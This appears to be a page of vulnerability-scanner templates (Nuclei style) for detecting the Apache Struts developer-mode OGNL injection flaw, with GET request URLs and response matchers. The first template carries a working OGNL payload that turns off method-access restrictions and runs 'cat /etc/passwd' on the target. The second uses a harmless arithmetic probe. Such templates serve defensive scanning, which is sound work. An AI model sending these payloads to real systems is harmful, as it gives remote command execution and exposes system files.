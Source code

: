## Requests

- Method - GET

### URL

- {{BaseURL}}/devmode.action?debug=command&expression=(%23_memberAccess[%22allowStaticMethodAccess%22]%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean(%22false%22)%20%2C%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D%23foo%2C@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%27cat%20/etc/passwd%27).getInputStream()))

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Apache Struts Dev Mode OGNL Injection

## Description

- The DebuggingInterceptor component in Apache Struts before 2.3.1.1, when developer mode is used, allows remote attackers to execute arbitrary commands via unspecified vectors. NOTE: the vendor characterizes this behavior as not "a security vulnerability itself."

- severity - critical
- tags - ognl,injection,edb,cve,cve2012,apache,struts

## Requests

- Method - GET

### URL

- {{BaseURL}}/portal/displayAPSForm.action?debug=command&expression={{first}}\*{{second}}

### Matchers

**Type - word**

- words
  1. {{result}}

**Type - status**
